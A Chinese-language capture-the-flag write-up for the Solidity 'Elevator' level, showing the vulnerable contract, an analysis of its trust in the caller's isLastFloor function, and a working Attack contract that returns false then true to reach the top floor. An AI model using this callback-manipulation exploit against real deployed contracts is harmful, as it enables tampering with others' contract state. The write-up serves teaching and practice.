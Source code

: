 # Elevator

Elevator 這一關要求我們達到building的最高層。我們先看一下合約的代碼。

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
``` 

## 代码分析
首先看到Building的interface中，有一個叫做`isLastFloor`的函數，入參為uint而返回一個boolean值。而看`Elevator`合約，有兩個狀態變量，一個是boolean型的`top`，另一個是uint型的`floor`。而goTo函數中，首先將`msg.sender`轉換爲`Building`型，然後調用`isLastFloor`函數，如果返回值爲`false`，則將`floor`設置成我們的入參`_floor`，並且將`top`定義為`isLastFloor(floor)`的返回值。如果要完成這關的要求，我們就需要再第一次`isLastFloor`函數返回`false`,並且在接下來的第二次調用`isLastFloor`函數時返回`true`。

由於`isLastFloor`這個函數是屬於`msg.sender`，所以我們完全可以自己定義一個`isLastFloor`來達到第一次返回`false`，第二次返回`true`的要求。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Attack{
    Elevator private immutable target;
    bool manual_bool = true;

    constructor (address _target) {  
        target = Elevator(_target);
    }

    function go() external {
        target.goTo(1);
        require(target.top(), "Failed to reach top floor");
    }

    function isLastFloor(uint) external returns (bool) {
        manual_bool = !manual_bool;
        return manual_bool;
    }
}



interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## 攻击过程
1. 部署`Attack`合約，並且將`Elevator`合約的地址作爲入參傳入。
2. 調用`go`函數，完成任務。
